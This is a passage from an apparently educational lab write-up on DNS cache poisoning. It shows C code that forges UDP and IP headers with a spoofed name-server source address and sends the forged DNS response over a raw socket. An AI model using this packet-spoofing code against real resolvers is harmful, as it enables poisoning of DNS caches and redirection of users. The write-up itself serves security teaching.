 After that, we construct the header of udp and ip respectively. We did not actually made any changes in there except the name of ip and udp header. Because, we aimed to spoof package from the remote name server to our "<ins style="color:blue;font-weight:bold">DNS</ins>". We used the `33333` as dest port, which was used by the "<ins style="color:blue;font-weight:bold">DNS</ins>" enforcedly. We almost did not change codes in this codes section.

```c
    /************ CONSTRUCT UDP PACKAGE ************/ 
    resp_udp->udph_srcport = htons(53);
    resp_udp->udph_destport = htons(33333);
    resp_udp->udph_len = htons(sizeof(struct udpheader) + sizeof(struct dnsheader) + resp_len);
    resp_udp->udph_chksum=check_udp_sum(resp_buffer, sizeof(struct udpheader) + sizeof(struct dnsheader) + resp_len);

    /************ CONSTRUCT IP PACKAGE ************/ 
    resp_ip -> iph_ihl = 5;
    resp_ip->iph_ver = 4;
    resp_ip->iph_tos = 0; 
    resp_ip->iph_len=htons(sizeof(struct ipheader) + sizeof(struct udpheader) + sizeof(struct dnsheader) + resp_len);
    resp_ip->iph_ident=htons(rand());
    resp_ip->iph_ttl= 110;
    resp_ip->iph_protocol= 17;
    resp_ip->iph_sourceip = inet_addr(example_dns_ip);
    resp_ip->iph_destip = inet_addr(sev_ip);
    resp_ip->iph_chksum = csum((unsigned short *)resp_buffer, sizeof(struct ipheader) + sizeof(struct udpheader));
```

Finally, we initialised the socket and sent the package. We set the sock address to use port number $33333$ but it is optional in this case. It is because we use the UDP with raw socket and the port number has already been defined in our package manually. 

```c
    /************ INITIALISE AND CONFIGURE SOCKET ************/ 
    struct sockaddr_in resp_sin;
    resp_sin.sin_family = AF_INET;
    resp_sin.sin_port = htons(33333);
    resp_sin.sin_addr.s_addr = inet_addr(sev_ip); 

    int one = 1;
    const int *val = &one;
    int sd = socket(PF_INET, SOCK_RAW, IPPROTO_UDP);
    if(sd<0) printf("socket error\n");

    if(setsockopt(sd, IPPROTO_IP, IP_HDRINCL, val, sizeof(one))<0){
        printf("error\n");	
        exit(-1);
    }

    /************ SENT PACKAGE ************/ 
    int resp_rst = sendto(sd, resp_buffer, resp_ip_pkg_len, 0, (struct sockaddr *)&resp_sin, sizeof(resp_sin));
            if(resp_rst < 0)printf("packet send error %d which means %s\n",errno,strerror(errno));
    close(sd);
```
